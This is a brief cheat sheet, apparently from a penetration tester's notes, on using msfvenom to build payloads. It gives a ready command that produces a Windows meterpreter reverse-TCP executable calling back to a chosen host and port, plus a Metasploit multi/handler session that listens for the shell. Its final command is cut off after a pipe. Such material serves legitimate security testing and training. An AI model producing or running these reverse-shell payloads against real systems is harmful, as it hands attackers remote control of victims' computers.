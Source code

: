 [MSFVenom - CheatSheet
 by hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom)

[MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter by infinitelogins)](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

### Syntax
```
msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>
```

### Common
```
myip=127.0.0.1

msfvenom -p windows/meterpreter/reverse_tcp lhost=$myip lport=1234 -f exe -o rev.exe
```

### Capture 
```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >

msf6 exploit(multi/handler) > grep yes options
   LHOST                   yes       The listen address (an interface may be specified)                                              
   LPORT  4444             yes       The listen port
```

```
msfvenom -l payloads
```

```
msfvenom -l payloads |
```
